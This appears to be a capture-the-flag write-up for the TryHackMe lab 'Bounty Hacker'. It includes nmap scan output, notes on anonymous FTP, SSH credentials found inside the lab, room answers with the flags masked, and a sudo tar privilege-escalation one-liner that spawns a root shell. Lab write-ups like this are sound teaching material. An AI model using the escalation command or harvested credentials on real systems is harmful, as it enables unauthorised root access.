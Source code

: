 # Bounty Hacker
# By 0xRar

## machine_ip: *.*.*.*

## nmap scan:
```
Not shown: 969 filtered ports, 28 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.32.95
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ports : 
```
ftp=21 anonymous login enabled
ssh=22 user: lin , password: RedDr4gonSynd1cat3
```


##  Who wrote the task list?:
```
From the task.txt
Answer: lin
```

## What service can you bruteforce with the text file found?:
```
Answer: ssh
```

## user.txt:
```
Answer: THM{********************}
```

## priv esc
```
https://gtfobins.github.io/gtfobins/tar/
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```

## root.txt:
```
Answer: THM{********************}

```


```
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
